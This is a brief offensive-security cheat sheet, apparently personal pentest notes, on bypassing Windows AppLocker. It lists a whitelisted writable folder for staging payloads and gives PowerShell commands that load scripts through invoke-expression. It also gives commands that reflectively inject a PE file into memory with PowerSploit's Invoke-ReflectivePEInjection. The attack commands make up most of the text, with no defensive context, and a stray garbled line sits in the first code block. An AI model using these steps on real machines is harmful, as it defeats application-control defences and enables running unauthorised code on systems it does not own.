 # AppLocker bypass

## auto-checker-script

```bash
| update $group, $root_folder
# location: /opt/kashz-scripts/windows/appLocker-Bypass-Checker.ps1

Get-Content .\appLocker-Bypass-Checker.ps1 | out-string | invoke-expression
```

## More Paths ([link](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md))

```bash
# most commonly used
C:\windows\System32\spool\drivers\color
```

## Execute using `Invoke-ReflectivePEInjection.ps1`

NOTE: sometimes, have noticed this breaks the shell, other times it works.

```powershell
# located at /usr/share/windows-resources/powersploit/CodeExecution/Invoke-ReflectivePEInjection.ps1 .

$ByteArray = [System.IO.File]::ReadAllBytes("C:\windows\System32\spool\drivers\color\FILE");

Invoke-expression(Get-Content .\Invoke-ReflectivePEInjection.ps1 |out-string)
Invoke-ReflectivePEInjection -PEBytes $ByteArray
```
